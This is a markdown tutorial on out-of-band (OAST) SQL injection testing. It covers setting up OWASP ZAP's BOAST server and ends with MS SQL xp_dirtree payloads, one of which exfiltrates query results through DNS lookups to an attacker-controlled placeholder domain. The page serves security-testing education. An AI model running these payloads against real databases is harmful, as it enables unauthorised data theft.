 ```yaml
---
layout: default
title: My way of testing SQL Injection - Part 2 - OAST Testing
parent: SQL Injection
nav_order: 2
has_children: false
---
```


### What is OAST testing?

OAST testing is Out of band Application Security Testing where we send a payload to the server that causes an interaction with an external system we have control over, that sits outside the target domain. 

### Why is OAST testing is important?

You can directly exfiltrate data via the out-of-band channel, for example by placing the data into a DNS lookup for a domain that you control. 

### How OAST testing works?

Let us consider we have a domain, we own. If anyone send DNS lookup for that domain, we will be able to see the details for that request. So let use now consider, we created a payload that will send the DNS lookup along with the details from the target system to our domain , we will be able to see the details in the dump. 

### OAST testing using ZAP

#### Setting up ZAP for OAST testing

*   Download the latest OWASP ZAP.
*   Go to tools → Options
*   You can search for OAST.
*   In OAST options screen, go to BOAST tab
*   You can see the server URI and Polling frequency inputs. 
*   You can set up your own server .Server URI address should point to the URI that will be used for registrations and polling.A valid URI will include the scheme, the host, the port, and the `/events` endpoint. The host must be running a working instance of BOAST. An example of a valid URI is: [`https://example.com:1337/events`.](https://example.com:1337/events.)
*   click on register.
*   You will notice that a new entry has been added to _Active Servers_ table. You can copy the payload with `ctrl` + `C` to use it in your attacks.
*   ZAP will now poll this server at the frequency you set and report all interactions (DNS, HTTP) with the payload URI in the OAST tab in the main screen.

Similar to ZAP, you can use Burpsuite collaborator which comes with [Burp Suite Enterprise Edition](https://portswigger.net/burp/enterprise) and [Burp Suite Professional](https://portswigger.net/burp/pro) 

#### Testing 

Now you have the payload. For example,  nbtgsasdaspgvy6glznbom2lj5q.odiss.eu .

If you go to the browser and enter this URL [http://abcd.nbtgsasdaspgvy6glznbom2lj5q.odiss.eu](http://abcd.nbtgsasdaspgvy6glznbom2lj5q.odiss.eu) , then you will see the entry in the OAST tab which says you got the get request for the URL http://abcd.nbtgsasdaspgvy6glznbom2lj5q.odiss.eu

### Usage of OAST in SQL injection

Now let us consider, your target server using MS DB. You can confirm the vulnerability by using this payload `exec master..xp_dirtree '//DOMAIN-NAME/a'`

If you want to ex-filtrate the data, you can use the payload `declare @p varchar(1024);set @p=(SELECT YOUR-QUERY-HERE);exec('master..xp_dirtree "//'+@p+'.DOMAIN-NAME/a"')`